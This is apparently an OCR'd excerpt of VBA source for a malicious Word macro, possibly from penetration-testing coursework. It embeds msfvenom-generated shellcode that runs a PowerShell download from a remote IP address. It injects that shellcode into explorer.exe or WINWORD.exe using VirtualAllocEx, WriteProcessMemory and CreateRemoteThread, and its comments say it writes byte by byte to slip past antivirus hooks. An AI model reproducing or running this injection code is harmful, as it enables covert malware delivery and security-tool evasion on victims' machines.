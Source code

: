 ```vba
        0, 0, 72, 133, 192, 116, 103, 72, 1, 208, 80, 139, 72, 24, 68, 139, 64, 32, 73, 1, 208, 227, 86, 72, 255, 201, 65, 139, 52, 136, 72, 1, 214, 77, 49, 201, 72, 49, 192, 172, 65, 193, 201, 13, 65, 1, 193, 56, 224, 117, 241, 76, 3, 76, 36, 8, 69, 57, 209, 117, 216, 88, 68, 139, 64, 36, 73, 1, 208, 102, 65, 139, 12, 72, 68, 139, 64, 28, 73, 1, _
        208, 65, 139, 4, 136, 72, 1, 208, 65, 88, 65, 88, 94, 89, 90, 65, 88, 65, 89, 65, 90, 72, 131, 236, 32, 65, 82, 255, 224, 88, 65, 89, 90, 72, 139, 18, 233, 87, 255, 255, 255, 93, 72, 186, 1, 0, 0, 0, 0, 0, 0, 0, 72, 141, 141, 1, 1, 0, 0, 65, 186, 49, 139, 111, 135, 255, 213, 187, 224, 29, 42, 10, 65, 186, 166, 149, 189, 157, 255, 213, _
        72, 131, 196, 40, 60, 6, 124, 10, 128, 251, 224, 117, 5, 187, 71, 19, 114, 111, 106, 0, 89, 65, 137, 218, 255, 213, 112, 111, 119, 101, 114, 115, 104, 101, 108, 108, 46, 101, 120, 101, 32, 45, 99, 32, 40, 110, 101, 119, 45, 111, 98, 106, 101, 99, 116, 32, 110, 101, 116, 46, 119, 101, 98, 99, 108, 105, 101, 110, 116, 41, 46, 68, 111, 119, 110, 108, 111, 97, 100, 83, _
        116, 114, 105, 110, 103, 40, 39, 104, 116, 116, 112, 58, 47, 47, 49, 57, 50, 46, 49, 54, 56, 46, 52, 53, 46, 49, 54, 48, 47, 69, 120, 101, 99, 116, 101, 115, 116, 39, 41, 0)

        'grab handle to target, customizable
        pid = getPID("explorer.exe")
        Handle = OpenProcess(&H1F0FFF, False, pid)
    Else
        'msfvenom -p windows/exec -f vbapplication CMD="powershell.exe -c (new-object net.webclient).DownloadString('http://192.168.45.160/Exectest')" EXITFUNC=thread
        buf = Array(252, 232, 130, 0, 0, 0, 96, 137, 229, 49, 192, 100, 139, 80, 48, 139, 82, 12, 139, 82, 20, 139, 114, 40, 15, 183, 74, 38, 49, 255, 172, 60, 97, 124, 2, 44, 32, 193, 207, 13, 1, 199, 226, 242, 82, 87, 139, 82, 16, 139, 74, 60, 139, 76, 17, 120, 227, 72, 1, 209, 81, 139, 89, 32, 1, 211, 139, 73, 24, 227, 58, 73, 139, 52, 139, 1, 214, 49, 255, 172, 193, _
        207, 13, 1, 199, 56, 224, 117, 246, 3, 125, 248, 59, 125, 36, 117, 228, 88, 139, 88, 36, 1, 211, 102, 139, 12, 75, 139, 88, 28, 1, 211, 139, 4, 139, 1, 208, 137, 68, 36, 36, 91, 91, 97, 89, 90, 81, 255, 224, 95, 95, 90, 139, 18, 235, 141, 93, 106, 1, 141, 133, 178, 0, 0, 0, 80, 104, 49, 139, 111, 135, 255, 213, 187, 224, 29, 42, 10, 104, 166, 149, _
        189, 157, 255, 213, 60, 6, 124, 10, 128, 251, 224, 117, 5, 187, 71, 19, 114, 111, 106, 0, 83, 255, 213, 112, 111, 119, 101, 114, 115, 104, 101, 108, 108, 46, 101, 120, 101, 32, 45, 99, 32, 40, 110, 101, 119, 45, 111, 98, 106, 101, 99, 116, 32, 110, 101, 116, 46, 119, 101, 98, 99, 108, 105, 101, 110, 116, 41, 46, 68, 111, 119, 110, 108, 111, 97, 100, 83, 116, 114, 105, _
        110, 103, 40, 39, 104, 116, 116, 112, 58, 47, 47, 49, 57, 50, 46, 49, 54, 56, 46, 52, 53, 46, 49, 54, 48, 47, 69, 120, 101, 99, 116, 101, 115, 116, 39, 41, 0)

        Handle = findWow64()
        ' 32-bit Word running on 64-bit OS, no suitable proc found
        If Handle = 0 Then
            'grab handle to target, which has to be running if this macro is opened from word
            pid = getPID("WINWORD.exe")
            Handle = OpenProcess(&H1F0FFF, False, pid)
        End If
    End If

    
    'MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE
    addr = VirtualAllocEx(Handle, 0, UBound(buf), &H3000, &H40)
    'byte-by-byte to attempt sneaking our shellcode past AV hooks
    For counter = LBound(buf) To UBound(buf)
        binData = buf(counter)
        Address = addr + counter
        res = WriteProcessMemory(Handle, Address, binData, 1, 0&)
        Next counter
    thread = CreateRemoteThread(Handle, 0, 0, addr, 0, 0, 0)
End Function

Function arch() As Boolean
 'check architecture of current word process
    #If Win64 Then
        arch = True
    #Else
        arch = False
```